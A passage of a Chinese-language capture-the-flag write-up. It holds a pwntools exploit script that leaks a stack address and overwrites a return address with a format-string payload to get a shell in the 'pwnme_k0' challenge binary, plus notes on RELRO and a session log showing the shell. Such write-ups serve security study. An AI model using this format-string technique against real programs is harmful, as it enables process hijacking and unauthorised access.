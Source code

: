 ```
# ret_addr = int(sh.recv()[:12],16) - 56
# 当然，因为地址后面是\n，用recvline更好
ret_addr = int(sh.recvline().strip(),16) - 0x38
success("ret_addr:"+hex(ret_addr))

sh.recv()
sh.sendline(b"2")
sh.recv()
sh.sendline(p64(ret_addr))
sh.recv()
# 修改为0x4008aa
sh.sendline(b"%2218d%8$hn")

sh.recv()
sh.sendline(b"1")
sh.recv()
sh.interactive()
```

> 补充：
>
> 在Full RELRO模式下，所有的GOT项都会被标记为只读，包括全局函数地址、全局变量地址和动态符号表等。
>
> 在Partial RELRO模式下，只有部分的GOT项会被标记为只读，通常包括全局函数地址。其他的GOT项，如全局变量地址和动态符号表，仍可被修改。这样做的目的是在程序启动时，可以通过动态链接器动态加载一些共享库，提高程序的灵活性和性能。

> 补充2，在第一步中，我们获取了rbp中存储的地址（即为上一个rbp），那么这个值+8不就应该是上一个函数的返回地址了，所以修改这个地址也可以。即：ret_addr = int(sh.recv()[:12],16) + 8
>
> 不过需要注意，这样做程序暂时还没有执行到system，所以需要结束程序才会进入shell（所以说还是覆盖当前的返回地址比较好），如下所示：

```shell
❯ python myexp.py
[+] Starting local process './pwnme_k0': pid 250890
[+] ret_addr:0x7fffb05a2a58
[*] Switching to interactive mode
1.Sh0w Account Infomation!
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
>$ 3
byebyeT.T
$ ls
exp.py    myexp.py  pwnme_k0  temp.py
```

